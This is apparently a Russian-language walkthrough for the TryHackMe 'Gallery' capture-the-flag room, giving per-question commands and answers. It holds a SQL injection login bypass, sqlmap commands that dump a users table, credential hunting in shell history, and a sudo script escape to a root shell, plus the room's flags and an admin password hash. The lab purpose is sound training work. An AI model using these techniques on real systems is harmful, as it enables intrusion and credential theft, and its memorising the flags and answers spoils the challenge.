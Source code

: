 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Gallery](https://tryhackme.com/r/room/gallery666) 

Всего 2 задания:
## Задание 1
Наша галерея не очень хорошо охраняется.

Разработано и создано  Микаа  !

### Ответьте на вопросы ниже
Сколько портов открыто?
```commandline
nmap -sC -sV <IP>
```
```commandline
2
```
Как называется CMS?
```commandline
gobuster dir -u <IP> -w /opt/medium.txt
http://<IP>/gallery/login.php
```
```commandline
Simple Image Gallery
```
Какой хеш-пароль у пользователя admin?
```commandline
'or 1=1 -- -
sudo sqlmap -r test.req --dbs
sqlmap -r test.req --current-db gallery_db --tables
sqlmap -r test.req --current-db gallery_db -T users --columns
sqlmap -r test.req --current-db gallery_db -T users -C username,password --dump
```
```commandline
a228b12a08b6527e7978cbe5d914531c
```
Что такое флаг пользователя?
```commandline
searchsploit Simple Image Gallery
cat .bash_history
su mike
cat user.txt
```
```commandline
THM{af05cd30bfed67849befd546ef}
```

## Задание 2
Удачи на последнем этапе!
### Ответьте на вопросы ниже
Что такое корневой флаг?
```commandline
sudo -l
cat /opt/rootkit.sh
sudo /bin/bash /opt/rootkit.sh
^R^X
reset; sh 1>&0 2>&0
id
cat /root/root.txt
```
```commandline
THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)
